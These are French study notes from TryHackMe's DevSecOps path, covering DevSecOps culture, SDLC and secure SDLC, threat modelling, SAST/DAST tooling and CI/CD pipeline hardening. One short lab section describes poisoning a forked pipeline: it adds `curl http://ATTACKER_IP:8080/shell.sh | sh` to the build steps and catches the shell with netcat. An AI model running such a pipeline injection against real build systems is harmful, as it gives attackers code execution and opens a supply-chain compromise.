


# DevSecOps of TryHackMe

---

## Secure Software Dev

### Intro to DevSecOps
Sert à créer de la confiance 

#### Grâce à l'avènement du DevOps, l'infrastructure de développement actuelle est entièrement automatisée et fonctionne en libre-service :

* **Les développeurs peuvent désormais provisionner des ressources dans des clouds publics** sans dépendre de l'équipe IT pour mettre en place l’infrastructure, ce qui dans le passé entraînait des retards de plusieurs semaines, voire de plusieurs mois.

* **Les processus d'intégration et de déploiement continus (CI/CD)** configurent automatiquement les environnements de test, de préproduction et de production, que ce soit dans le cloud ou sur site. Ces environnements peuvent être désactivés, redimensionnés ou reconfigurés selon les besoins.

* **L’Infrastructure-as-Code (IaC)** est largement utilisée pour déployer des environnements de manière déclarative, à l’aide d’outils comme **Terraform** ou **Vagrant**.

* **Les organisations peuvent désormais provisionner dynamiquement des charges de travail conteneurisées** via des processus automatisés et adaptatifs.

---

#### Approche déclarative vs impérative

* **Approche déclarative** :
  L’utilisateur spécifie l’état final souhaité de l’infrastructure — par exemple, déployer des machines dans un état opérationnel directement dans un environnement. La configuration est automatisée tout au long du processus. Le logiciel construit et déploie l’infrastructure sans intervention humaine.

* **Approche impérative (ou procédurale)** :
  Cette méthode configure les systèmes en suivant une série d’étapes définies. Par exemple, on peut déclarer le déploiement d'une nouvelle version du logiciel et automatiser les étapes nécessaires pour atteindre un état prêt à être déployé. L’application des changements est contrôlée par un "garde-fou" (ou **"gate"**), comme un bouton **« déployer les modifications »**, qui n’apparaît qu’une fois que toutes les vérifications et configurations automatisées ont été validées.


---

* LE devops est représenté par :  
  


---

* Et maintement le **DEVSECOPS**

1. **CI/CD (Intégration Continue / Déploiement Continu)**
   Comme mentionné précédemment, le CI/CD concerne la fusion fréquente de code et l’ajout de tests automatisés pour effectuer des vérifications à chaque nouveau code poussé ou fusionné.
   Grâce à cette nouvelle dynamique de déploiement — avec des modifications de code mineures, systématiques et régulières — le CI/CD permet de :

   * détecter rapidement les bugs,
   * réduire considérablement les efforts de maintenance du code modulaire,
   * faciliter les retours en arrière fiables vers des versions précédentes du code.

2. **Infrastructure as Code (IaC)**
   L’IaC est une méthode permettant de gérer et de provisionner l’infrastructure via du code et de l’automatisation.
   Cette approche permet :

   * la réutilisation du code servant au déploiement (par exemple, d’instances cloud),
   * une création et une gestion cohérentes des ressources.
     Les outils couramment utilisés sont **Terraform**, **Vagrant**, etc. Nous les utiliserons plus loin dans le parcours, notamment pour expérimenter la sécurité IaC.

3. **Gestion de configuration (Configuration Management)**
   Il s'agit de maintenir en permanence l’état de l’infrastructure et d’appliquer efficacement les changements.
   Cela permet :

   * un gain de temps important,
   * une meilleure visibilité sur la configuration de l’infrastructure.
     L’IaC peut aussi être utilisé dans ce contexte.

4. **Orchestration**
   L’orchestration est l’automatisation des flux de travail.
   Elle permet notamment :

   * de garantir la stabilité des systèmes,
   * de planifier automatiquement les ressources pour réagir rapidement en cas de problème (ex. : échec des vérifications d’intégrité).
     Cela repose généralement sur des outils de **monitoring**.

5. **Monitoring (Surveillance)**
   Le monitoring consiste à collecter des données sur la performance et la stabilité des services et de l’infrastructure.
   Il permet :

   * une récupération plus rapide en cas d’incident,
   * une meilleure visibilité entre les équipes,
   * une analyse approfondie pour identifier les causes profondes des problèmes,
   * des réponses automatisées aux incidents.

6. **Microservices**
   L’architecture microservices divise une application en plusieurs petits services indépendants.
   Cette approche offre :

   * plus de flexibilité en cas de montée en charge,
   * une complexité réduite,
   * la possibilité d’utiliser des technologies différentes pour chaque microservice.
     Nous approfondirons ce sujet dans la suite du parcours **DevSecOps**.

---

---

#### Défis du DevSecOps :

1. **Silos de sécurité**
   Il est courant que les équipes de sécurité soient exclues des processus DevOps, considérant la sécurité comme un domaine à part entière, réservé à des experts spécialisés.
   Cela crée un **silo autour de la sécurité**, empêchant les ingénieurs de :

   * comprendre son importance,
   * appliquer des mesures de sécurité dès les premières étapes du développement.

   Cette approche n’est ni **scalable** ni **flexible**.
   La sécurité doit être une fonction de **soutien**, qui aide les équipes à croître et à intégrer des pratiques sécurisées — non pas un obstacle, mais une **rampe de lancement** vers des solutions sûres.
   **Bonne pratique** : partager les responsabilités en matière de sécurité entre tous les membres de l’équipe, au lieu de dépendre uniquement d’un ingénieur sécurité spécialisé.

2. **Manque de visibilité et de priorisation**
   Il est essentiel de **créer une culture** où la sécurité est considérée comme une **composante normale de l’application**.
   Cela permet aux développeurs de :

   * se concentrer sereinement sur le développement,
   * éviter une approche policière de la sécurité et le jeu des reproches.

   Il faut instaurer un **climat de confiance entre les équipes**.
   La sécurité doit **encourager l’autonomie** en mettant en place des processus intégrés et accessibles qui renforcent naturellement les pratiques sécurisées.

3. **Processus trop rigides**
   Chaque expérimentation ou nouveau logiciel ne doit pas être bloqué par des processus complexes ou des vérifications de conformité trop lourdes avant même d’être testé.

   Les procédures doivent être **flexibles**, en tenant compte :

   * des tâches à faible impact (traitées avec légèreté),
   * des tâches et changements à haut risque (soumis à des contrôles stricts).

   Les développeurs ont besoin d’environnements de test sans restrictions sécuritaires excessives : ce sont les **« SandBox »**, ou bacs à sable :

   * des environnements **isolés temporairement**,
   * **sans connexion aux réseaux internes**,
   * **sans aucune donnée client**.

---


### SDLC

---

#### Qu’est-ce que le **cycle de vie du développement logiciel (SDLC)** ?

1. **Définition du SDLC**
   Le **Software Development Lifecycle (SDLC)** est un ensemble de pratiques constituant un cadre méthodologique visant à **standardiser la création d’applications logicielles**.
   Le SDLC définit les **tâches à réaliser à chaque étape du développement logiciel**.

   Les objectifs principaux sont :

   * améliorer la **qualité du logiciel**,
   * optimiser le **processus de développement**,
   * répondre aux **attentes des clients**,
   * respecter les **délais** et les **budgets**.

   Par exemple, l’augmentation de la puissance de calcul et des exigences clients entraîne une hausse des coûts logiciels et une dépendance accrue aux développeurs.
   Le SDLC permet de **mesurer et d’optimiser** ce processus en fournissant des analyses à chaque étape, afin de **maximiser l’efficacité** et **réduire les coûts**.

2. **Comment fonctionne le SDLC ?**
   Le SDLC fournit une **feuille de route pour créer une application logicielle**.
   Il le fait en découpant le processus de développement en **plusieurs phases successives**, appelées **phases du cycle de vie**.

   Les avantages de cette structuration :

   * la **standardisation des tâches** dans chaque phase améliore l’efficacité globale du développement,
   * chaque phase est décomposée en **tâches mesurables et suivies**,
   * cela permet un **suivi précis** de l’avancement du projet et d’éviter les dérives.

   L’objectif du SDLC est de créer :

   * des **processus reproductibles**,
   * des **résultats prévisibles**,
   * des **retours d’expérience utiles** pour les projets futurs.

   En général, un cycle SDLC comprend entre **6 et 8 phases** principales.

---


  


---

* FRAMEWORK CALMS :  


#### **CALMS** : un cadre d’évaluation de la maturité DevOps

Le modèle **CALMS**, comme expliqué dans un article d’Atlassian, est un cadre permettant d’évaluer la capacité d'une entreprise à adopter les processus **DevOps**.
L'acronyme **CALMS**, créé par **Jez Humble** (co-auteur de *The DevOps Handbook*), signifie :

1. **Culture**
   Comme mentionné dans l’introduction à DevSecOps, **DevOps n’est pas simplement une méthode ou un processus**, mais un **changement culturel profond**.
   Pour réussir une adoption DevOps, une organisation doit :

   * abandonner l’approche traditionnelle en cascade,
   * adopter une stratégie agile, divisant les projets en **petites tâches livrables par sprints**.

   Ce changement de culture concerne **tous les collaborateurs** : développeurs, testeurs (QA), gestionnaires de produit, et équipes d’exploitation (Ops).

2. **Automatisation**
   L’un des piliers fondamentaux de DevOps est l’**automatisation**.
   Puisque les projets sont fragmentés en petits composants, **intégrer manuellement ces morceaux serait inefficace**.
   Il est donc crucial :

   * de créer des **processus automatisés** pour assurer des intégrations fiables et répétables,
   * de commencer par **la livraison continue**, puis évoluer vers **l’intégration continue**.

   Les équipes matures automatisent aussi la **configuration** via le concept de **configuration-as-code** :

   * la configuration de l’application est définie dans le code lui-même,
   * cela permet d’adapter dynamiquement les instructions de build selon l’environnement ciblé,
   * on réduit ainsi les erreurs, et on supprime les contournements possibles par les développeurs avant la mise en production.

3. **Lean**
   La philosophie **Lean** dans DevOps consiste à **découper les tâches au maximum** afin de :

   * livrer des premières versions de l’application plus rapidement,
   * favoriser **l’amélioration continue** au lieu d’attendre un produit « parfait » avant tout lancement.

   Cette approche permet aussi de :

   * **impliquer les utilisateurs très tôt** dans le cycle de développement,
   * recueillir des **retours concrets** et des **suggestions de fonctionnalités** pour guider l’évolution du produit.

4. **Mesure (Measurement)**
   La mise en œuvre du DevOps nécessite des **indicateurs de performance clairs**.
   Ces **mesures** permettent :

   * de suivre l’efficacité des processus,
   * de détecter les points faibles,
   * d’**ajuster en continu** pour améliorer la qualité du produit et la collaboration.

   Les métriques clés seront approfondies dans une prochaine étape.

5. **Partage (Sharing)**
   Dans une chaîne DevOps efficace, la **responsabilité est partagée** entre tous les membres des équipes, y compris le développement et les opérations.
   Reconnaître cette **responsabilité collective** :

   * améliore la collaboration,
   * renforce la qualité du produit final,
   * crée une culture de **transparence et de soutien mutuel**.

---


---


#### **Métriques DevOps**

Lorsqu’on crée l’infrastructure manuellement, les déploiements peuvent être **bloqués**.
Il peut y avoir trop d’erreurs en production, ce qui indique que l’**automatisation des tests de sécurité** est insuffisante ou trop coûteuse en **ressources** (temps et puissance de calcul).
Pour identifier **où et comment s’améliorer**, il est essentiel de **mesurer vos ressources** à l’aide de **métriques clés**. Voici les principales :

---

1. **MTTP – Mean Time To Production (Délai moyen de mise en production)**
   ➤ Quelle est la durée entre un commit de code et sa mise en production ?

   * Mesure le temps nécessaire pour qu’un changement de code passe toutes les étapes (tests, validation) et soit déployé.
   * Pour améliorer le MTTP :

     * automatiser les tests,
     * travailler en petits lots,
     * offrir des **retours rapides aux développeurs**.

2. **Fréquence de déploiement**
   ➤ À quelle fréquence de nouvelles versions sont-elles mises en production ?

   * Plus la fréquence est élevée, plus l’équipe est agile.
   * Cela nécessite une **pipeline de déploiement automatisée**, incluant :

     * tests automatiques,
     * retours d’erreurs,
     * interventions humaines minimisées.
   * Certaines équipes **déploient plusieurs fois par jour**.

3. **Vitesse de déploiement**
   ➤ Une fois qu'une version est validée, combien de temps prend son déploiement en production ?

   * Complémentaire au MTTP, cette métrique évalue l’**efficacité des dernières étapes** du pipeline de livraison.

4. **Agilité de déploiement**
   ➤ Combinaison entre vitesse et fréquence de déploiement.

   * Mesure la **capacité à livrer rapidement et régulièrement**.

5. **Taux d’échec en production**
   ➤ À quelle fréquence des échecs se produisent-ils une fois le code en production ?

   * Ne prend **pas en compte les bugs détectés avant le déploiement**.
   * Un taux d’échec élevé implique souvent des **hotfixes** ou des **retours en arrière**.
   * Les pratiques qui réduisent le MTTP aident également à **réduire ce taux d’échec**.

6. **MTTR – Mean Time To Recovery (Temps moyen de récupération)**
   ➤ Combien de temps faut-il pour **rétablir le service** après une interruption partielle ou totale ?

   * Le MTTR est crucial : un correctif ou un rollback doit être **déployé au plus vite**.
   * Cela nécessite :

     * une **surveillance continue** de l’état des systèmes,
     * des alertes automatiques en cas d’incident,
     * une équipe Ops disposant des **outils et permissions** nécessaires.

7. **Communication du risque**
   ➤ Les métriques DevOps permettent aussi de **communiquer et démontrer l'amélioration continue**.

   * Le risque est perçu différemment selon les rôles :

     * Pour un **DevSecOps**, le risque = **probabilité d’exploitation d’une faille** et son **impact**.
     * Pour un **DevOps**, le risque = **taux d’échec élevé en production**.
   * Comprendre ces différentes perceptions permet :

     * d’**aligner les objectifs**,
     * de **trouver un terrain d’entente** pour promouvoir une culture de **sécurité partagée**.

---


---
### SSDLC


---

#### **Cycle de Vie du Développement Logiciel Sécurisé (Secure SDLC)**

Traditionnellement, dans le **cycle de développement logiciel (SDLC)**, les **tests de sécurité** étaient introduits **très tard** dans le processus.
➤ Résultat : les **bugs, failles et vulnérabilités** étaient découverts après l’implémentation, ce qui rendait leur correction **beaucoup plus coûteuse et longue**.
Dans de nombreux cas, la sécurité n’était même **pas prise en compte pendant la phase de test**, et les bugs étaient donc **signalés par les utilisateurs finaux après déploiement**.

Les modèles **Secure SDLC** visent à **intégrer la sécurité à chaque étape** du cycle de développement.

---

#### **1. Pourquoi un SDLC sécurisé est-il important ?**

* Une **étude de l’institut IBM Systems and Sciences** montre qu’il est :

  * **6 fois plus coûteux** de corriger un bug détecté pendant l’implémentation,
  * **15 fois plus coûteux** s’il est identifié pendant les tests,
  * **jusqu’à 100 fois plus coûteux** s’il est découvert en phase de maintenance ou d’exploitation.

  

---

#### **2. Avantages du Secure SDLC**

*  **Réduction des coûts de développement**
*  **Détection précoce des vulnérabilités**
*  **Réduction des risques métier**
*  **Cycle de développement plus rapide**

---

#### **3. Exemples d'intégration de la sécurité à chaque étape du SDLC**

| **Phase du SDLC**              | **Intégration de la sécurité**                                          |
| ------------------------------ | ----------------------------------------------------------------------- |
| **Conception**                 | Analyse d’architecture, modèles de menaces, revues de conception        |
| **Développement**              | Revue de code, outils d’analyse statique (SAST), scanners de sécurité   |
| **Tests**                      | Tests de sécurité automatisés, tests dynamiques (DAST), tests unitaires |
| **Pré-déploiement**            | Tests d’intrusion, revues de conformité, validations de sécurité        |
| **Maintenance / Exploitation** | Surveillance, gestion des vulnérabilités, patchs, réponse aux incidents |

---

#### **4. Approche agile vs. approche en cascade (waterfall)**

*  **Approche Waterfall** :

  * Les tests de sécurité sont réalisés **à la toute fin du cycle**.
  * Exemple : si un **test d’intrusion** découvre une **injection SQL**, il faut **reconcevoir, corriger, retester**, ce qui prend **un cycle complet**.

*  **Approche Agile (Security by Design)** :

  * La sécurité est intégrée dès la phase de **planification**.
  * Exemple : la **paramétrisation des requêtes SQL** est décidée **dès la conception**, évitant les failles futures et **les retours en arrière coûteux**.
  *  Ici, un simple **échange d'équipe en réunion** suffit à prévenir la vulnérabilité.

---


---

#### **Processus SSDLC**

Une fois que vous avez compris votre posture de sécurité, il est temps de **prioriser** et **d'intégrer la sécurité dans votre SDLC**.
Un **cycle de développement logiciel sécurisé (SSDLC)** consiste à intégrer des processus comme des tests de sécurité et d'autres activités dans un processus de développement existant.

Par exemple :

* Rédiger les **exigences de sécurité** en même temps que les exigences fonctionnelles.
* Réaliser une **analyse des risques d'architecture** pendant la phase de conception.

Voici les **principaux processus du SSDLC** :
 
---

#### **1. Matrice des Risques**

Elle permet de **hiérarchiser les risques** identifiés dans le projet selon leur probabilité et leur impact.
Cela permet aux équipes de concentrer les efforts sur les menaces les plus critiques.

---

#### **2. Évaluation des Risques (Risk Assessment)**

* Elle se fait **en amont du SDLC**, dès les phases de **planification et de collecte des besoins**.
* Elle vise à intégrer une **approche "Security by Design"** dès les premières étapes.

 **Exemple** : si un utilisateur demande à consulter un article de blog, il **ne doit pas pouvoir l’éditer**, ni voir de champs d’entrée inutiles à ce stade.

---

#### **3. Modélisation des Menaces (Threat Modelling)**

* Elle identifie les **menaces potentielles** en cas d'absence de protections adaptées.
* Idéale après l’évaluation des risques, durant la **phase de conception**.
* Elle **décrit ce qui ne doit pas arriver**, contrairement aux spécifications fonctionnelles qui décrivent le comportement attendu.

 **Exemple** : s’assurer qu’une **vérification d’identité** est en place lorsque qu’un utilisateur demande à voir ses informations de compte.

---

#### **4. Analyse et Revue de Code (Code Scanning / Review)**

* Les **revues de code** peuvent être **manuelles ou automatisées**.
* Utilisation d’outils de **tests de sécurité statiques et dynamiques (SAST & DAST)**.
* Cruciales pendant la **phase de développement**, lorsque le code est écrit.

---

#### **5. Évaluations de Sécurité (Security Assessments)**

* **Tests d'intrusion (Pentests)** et **analyses de vulnérabilités**.
* Ce sont des tests **automatisés** pour identifier des **chemins critiques** dans l’application susceptibles d’être exploités.

 **Différences :**

* **Évaluations de vulnérabilité** : détectent des failles **hypothétiques**, mais **sans les exploiter**.
* **Tests d’intrusion** : **tentent d’exploiter activement** ces failles pour démontrer leur impact réel.

➤ Réalisés généralement pendant la phase **d'exploitation et de maintenance**, après le développement d’un prototype fonctionnel.

---


#### thread modelling

*  **STRIDE model** :  
    >• **Spoofing**: Impersonation of a user by a malicious actor, violating the authentication principle. Examples     include ARP, IP, and DNS spoofing.  
    • **Tampering**: Modification of information by an unauthorised user, violating the integrity principle.  
    • **Repudiation**: Lack of accountability for actions where responsibility cannot be attributed, violating non-repudiability.  
    • **Information** Disclosure: Violation of confidentiality, such as in data breaches.
    Denial of Service: Exhaustion of resources, preventing authorised users from accessing a system, violating availability.  
    • **Elevation** of Privilege: Gaining unauthorised access by escalating privileges, violating authorisation principles.  

* **DREAD model** :  
    >• **Damage**: The potential impact of a threat, scored on a scale of 0–10.  
    • **Reproducibility**: The complexity of reproducing the threat, scored 0–10.  
    • **Exploitability**: How easily the threat can be exploited, scored 0–10.  
    • **Affected Users**: The number of users impacted, scored 0–10.  
    • **Discoverability**: The ease of discovering the threat, scored 0–10.  


* **PASTA model (Process for Attack Simulation and Threat Analysis)** :  
    >• **Define Objectives**: Establish the scope and objectives.  
    • **Define Technical Scope**: Create architectural diagrams to map the attack surface.  
    • **Decomposition & Analysis**: Map trust boundaries and evaluate vulnerabilities.  
    • **Threat Analysis**: Identify potential threats based on intelligence.  
    • **Vulnerabilities & Weaknesses Analysis**: Assess and mitigate weaknesses.  
    • **Attack/Exploit Enumeration & Modelling**: Simulate attack paths and vulnerabilities  
    • **Risk Impact Analysis**: Document risks and propose mitigation steps.  


---

#### Secure code review & analysis

*  **Analyse de Code**

Il existe deux grandes approches d’analyse de sécurité du code :

* **Analyse statique** : examine le code source **sans exécuter l'application**.
* **Analyse dynamique** : examine le comportement **pendant l’exécution**. 

---

* les types  :


#### **1. SAST (Static Application Security Testing)**

* **Définition** : méthode de test **boîte blanche** qui analyse directement le **code source** d'une application.
* **Pourquoi "statique" ?** Parce que l’analyse a lieu **avant l’exécution de l'application**, souvent avant la compilation.
* **Avantage** : détecte très tôt les vulnérabilités, **avant l’intégration du code** dans l’application finale.

 **Fonctionnement** :

* Analyse automatique du code source.
* Détecte des failles comme des injections, des mauvaises pratiques de codage, etc.
* Permet de corriger les vulnérabilités **avant le déploiement**.

 **White Box Testing** : test en ayant accès total à la structure interne du code.

---

####  **Bonus : SCA (Software Composition Analysis)**

* Analyse les **dépendances open-source** utilisées dans le projet.
* Permet d’identifier les **composants vulnérables**.
* Devenu essentiel avec l’usage massif de **code open-source** dans les applications modernes.

---

####  **2. DAST (Dynamic Application Security Testing)**

* **Définition** : méthode de test **boîte noire**.
* Analyse **pendant l’exécution** de l'application (runtime).
* Teste une application **en production** ou en environnement de test déployé.

 **Fonctionnement** :

* Simule des attaques automatisées comme le ferait un **attaquant externe**.
* N’a **aucune connaissance du code source**.
* Très utile pour découvrir des comportements inattendus exploitables.

 **Black Box Testing** : test réalisé sans connaître l’architecture interne de l'application.

---

####  **3. IAST (Interactive Application Security Testing)**

* **Définition** : combine les avantages de **SAST et DAST**, avec une approche **boîte grise**.
* S’exécute **en parallèle de l’application**, souvent sur le **serveur d’application**.
* Analyse en temps réel les **flux de données** internes à l’application.

 **Fonctionnement** :

* Utilise un **agent** installé sur le serveur.
* Lorsqu’une vulnérabilité est détectée, **identifie la ligne de code** en cause.
* Idéal pendant les **tests fonctionnels** effectués par l’équipe QA.

 **Grey Box Testing** : test avec une connaissance partielle de l'application.

---

####  **Bonus : RASP (Runtime Application Self-Protection)**

* **Définition** : outil de sécurité qui **s’exécute au moment de l'exécution** de l’application.
* Se concentre sur la **protection en temps réel**, après la mise en production.

 **Fonctionnement** :

* RASP est déployé **à côté de l’application** sur le serveur.
* Analyse les **flux entrants et sortants** ainsi que le **comportement utilisateur**.
* Si une attaque est détectée, **bloque immédiatement l'accès** et **alerte l’équipe de sécurité**.
* Ne dépend pas uniquement de **signatures connues** : capable de détecter des attaques **inconnues**.

* **TIME LINE**
 


---
* **OWASP SSDLC**

 


* Microsoft's SDL

    * SDL principles:  
    Secure by Design: Security is a built-in quality attribute affecting the whole software lifecycle.

    * Security by Default:   
    Software systems are constructed to minimise potential harm caused by attackers, e.g. software is deployed with the least necessary privilege.

    * Secure in Deployment:  
    software deployment is accompanied by tools and guidance supporting users and administrators.

    * Communications:  
    software developers are prepared for occurring threats by communicating openly and timely with users and administrators


---

## Security of the pipeline

### Intro to pipeline automation

* Un pipeline ressemble à ça : 

 


#### Source code & Version control :

   * Location du source code + outil pour de la sauvegarde (version control avec un git ou autre)


#### Dependency Management

   * 2 type de dépendance :  
Voici la **traduction en français** du texte, ainsi qu'un **tableau refait** pour plus de clarté :

---

#### **Dépendances Externes vs Internes**

Les dépendances externes sont des bibliothèques et SDK disponibles publiquement. Elles sont hébergées sur des gestionnaires de dépendances externes tels que **PyPi** pour Python, **NuGet** pour .NET et **Gems** pour les bibliothèques Ruby.
Les dépendances internes sont des bibliothèques et SDK qu’une organisation développe et maintient en interne.
Par exemple, une organisation peut développer une bibliothèque d’authentification qui sera ensuite utilisée dans toutes les applications de cette organisation.

Il existe différentes préoccupations en matière de sécurité pour les dépendances internes et externes :

---

#### **Tableau comparatif : Dépendances internes vs externes**

| **Dépendances internes**                                                                                                                 | **Dépendances externes**                                                                                                                                                              |
| ---------------------------------------------------------------------------------------------------------------------------------------- | ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| Les bibliothèques peuvent devenir des logiciels obsolètes si elles ne sont plus mises à jour ou si leur développeur quitte l’entreprise. | Nous n’avons pas un contrôle total sur la dépendance, nous devons donc effectuer une vérification de sécurité approfondie.                                                            |
| La sécurité du gestionnaire de paquets est de notre responsabilité pour les bibliothèques internes.                                      | Si un gestionnaire de paquets ou un réseau de distribution de contenu (CDN) est compromis, cela peut entraîner une attaque sur la chaîne d’approvisionnement.                         |
| Une vulnérabilité dans une bibliothèque interne peut impacter plusieurs de nos applications si elle est utilisée partout.                | Les bibliothèques externes peuvent être analysées par des attaquants pour trouver des vulnérabilités 0-day. Une telle faille peut compromettre plusieurs organisations simultanément. |


#### Automated testing 

   * SAST,DAST,PENTEST


#### Continuous Integration and Delivery

   * CI/CD + build orchestrator + build agent

#### Environments

   * DEV - Development
   * UAT - User Acceptance Testing
   * PreProd - Pre-Production
   * PROD - Production
   * DR/HA - Disaster Recovery or High Availability

---
---


### Source code security


* Versionning de code .....  
   →git, Mercurial,Subversion pour physique  
   →github,gitlab, CI/CD avec action github pour cloud  

* [git](/1er_année/"cours git.md")


---
---
### CI/CD and build security 


---

#### Fondamentaux de l’intégration et du déploiement continus (CI/CD)

Selon GitLab, il existe huit fondamentaux pour la CI/CD :

* **Un dépôt source unique** – La gestion du code source doit être utilisée pour stocker tous les fichiers et scripts nécessaires à la création de l’application.
* **Des validations fréquentes sur la branche principale** – Les mises à jour du code doivent être petites et fréquentes afin de garantir une intégration aussi efficace que possible.
* **Des builds automatisés** – Le processus de build doit être automatisé et exécuté dès que des mises à jour sont poussées sur les branches du dépôt de code source.
* **Des builds auto-testés** – Puisque les builds sont automatisés, des étapes doivent être introduites pour que le résultat du build soit automatiquement testé en termes d’intégrité, de qualité et de conformité à la sécurité.
* **Des itérations fréquentes** – En effectuant des commits fréquents, les conflits se produisent moins souvent. Par conséquent, les commits doivent être petits et réguliers.
* **Des environnements de test stables** – Le code doit être testé dans un environnement qui reflète aussi fidèlement que possible l’environnement de production.
* **Une visibilité maximale** – Chaque développeur doit avoir accès aux derniers builds et au code pour comprendre et visualiser les changements apportés.
* **Des déploiements prévisibles à tout moment** – Le pipeline doit être rationalisé pour permettre des déploiements à tout moment avec un risque quasi nul pour la stabilité de la production.

Bien que tous ces fondamentaux contribuent à faire de la CI/CD un levier d’optimisation des processus DevOps, aucun ne se concentre réellement sur la réduction de la surface d’attaque ou la protection du pipeline contre les attaques potentielles.

---

#### Un Pipeline CI/CD Typique

À quoi ressemble un pipeline typique avec CI/CD activé ? Le schéma réseau de cette salle permet de mieux comprendre. Voyons ensemble les différents composants que l’on peut retrouver dans ce pipeline :

* **Postes de travail des développeurs** – Là où la magie du code opère, les développeurs créent et développent le code. Dans ce réseau, cela est simulé par votre *AttackBox*.
* **Solution de stockage du code source** – Il s’agit d’un emplacement centralisé pour stocker et suivre les différentes versions du code. C’est le serveur GitLab présent dans notre réseau.
* **Orchestrateur de build** – Coordonne et gère l’automatisation des environnements de build et de déploiement. GitLab et Jenkins sont tous deux utilisés comme serveurs de build dans ce réseau.
* **Agents de build** – Ces machines construisent, testent et empaquettent le code. Nous utilisons des *GitLab runners* et des *agents Jenkins* pour cela.
* **Environnements** – Brièvement mentionnés ci-dessus, on retrouve généralement des environnements pour le développement, les tests (*staging*) et la production (code en ligne). Le code est construit et validé à travers ces différentes étapes. Dans notre réseau, nous avons à la fois un environnement **DEV** et un environnement **PROD**.

---

#### Création d'un PIPELINE

* Pour créer un pipeline il github ou gitlab et un fichier ci  
   car il permet de mettre en place les différente partie d'un pipeline  

   > exemple en php (il faut php7.2-cli)  
             build-job:  
               stage: build  ## soit test,deploy
               script:  
               - echo "Hello, $GITLAB_USER_LOGIN!"  

---

* Puis pour qu'il focntionne il faut des runners  
   tuto pour gitlab :
   1. apt install gitlab-runner
   2. dans ton projet → paramètre CI/CD
   3. project runners → install a runner 
   4. /!\ on a déjà le binary avec l'étape 1. 
   5. copie le truc d'en dessous le command to register runner
   6. colle le dans ton terminal 
   7. puis full entrer et c'est good


---

#### Source code security 

* maintenant faut le sécuriser ce pipeline donc faut régler les 2 plus gros problème  

   1. **Altération non autorisée** –  
         Il s'agit du problème le plus simple des deux. Seuls les utilisateurs autorisés doivent être en mesure de modifier le code source. Cela signifie que nous devons contrôler qui a la capacité de pousser du nouveau code dans notre dépôt.
   2. **Divulgation non autorisée** –  
         Ce problème est un peu plus délicat. Selon l’application, le code source lui-même peut être considéré comme sensible. Par exemple, Microsoft ne souhaiterait pas divulguer le code source de Word, car il s’agit de sa propriété intellectuelle. Dans les cas où le code source est sensible, nous devons nous assurer de ne pas le divulguer intentionnellement. Ce problème est beaucoup plus courant.

* donc on fait des branches mais aussi 2FA ou MFA , Audit log , scan de repo ou encore update les permission régulièrement

---

#### **Protection du processus de build**

Protéger le processus de build est essentiel pour éviter les vulnérabilités dès le début du cycle de vie du code. Un build non sécurisé peut permettre des attaques de type *living-off-the-land*, des attaques sur la chaîne d'approvisionnement, ainsi que de nombreux problèmes difficiles à détecter plus tard dans le pipeline. Voici quelques bonnes pratiques à suivre, qui rassemblent les éléments évoqués dans les tâches précédentes :

* **Isolation et conteneurisation** : Exécutez les builds dans des conteneurs isolés pour éviter toute interférence et garantir la cohérence.
* **Principe du moindre privilège** : Accordez le minimum de permissions aux outils CI/CD, en limitant l’accès non nécessaire aux ressources sensibles.
* **Gestion des secrets** : Utilisez les fonctionnalités de gestion des secrets des outils CI/CD pour stocker et injecter les données sensibles de manière sécurisée.
* **Artefacts immuables** : Stockez les artefacts de build dans un registre sécurisé pour éviter toute altération et permettre un audit facile.
* **Analyse des dépendances** : Intégrez une analyse des dépendances pour identifier et corriger les vulnérabilités présentes dans les bibliothèques tierces.
* **Pipeline en tant que code** : Définissez les pipelines CI/CD sous forme de code, versionné avec le code source.
* **Mises à jour régulières** : Maintenez à jour les outils CI/CD et leurs dépendances afin de corriger les vulnérabilités connues.
* **Journalisation et surveillance** : Surveillez les journaux de build à la recherche d’activités inhabituelles et intégrez-les aux systèmes de surveillance de sécurité.


#### attaque niveau build via merge 

* SI un build est en merge only pour "sécurité" en réalité non car :  
   1. on peut toujours faire un fork de ce test de sécu 
   2. puis avec python3 (on fait un serv http `python3 -m http.server 8080`)
   3. et dans le "test" on rajoute `curl http://ATTACKER_IP:8080/shell.sh | sh` dans la partie steps du pipeline

   4. puis tu commit le changement
   5. pour vérifier tu vérifie avec nc -lvp 8081


---

#### **Protection du serveur de build**


Les étapes suivantes peuvent être suivies pour protéger à la fois votre serveur de build et vos agents de build :

* **Configuration des agents de build** : Configurez les agents de build pour qu’ils ne communiquent qu’avec le serveur de build, en évitant toute exposition externe.
* **Réseau privé** : Placez les agents de build dans un réseau privé, sans accès direct à Internet.
* **Pare-feux** : Utilisez des pare-feux pour restreindre les connexions entrantes uniquement au trafic nécessaire lié au serveur de build.
* **VPN** : Utilisez un VPN pour accéder au serveur de build et à ses agents de manière sécurisée depuis des emplacements distants.
* **Authentification par jeton** : Utilisez des jetons d’agent de build pour l’authentification, ajoutant ainsi une couche de sécurité supplémentaire.
* **Clés SSH** : Pour les agents de build basés sur SSH, utilisez des clés SSH sécurisées pour l’authentification.
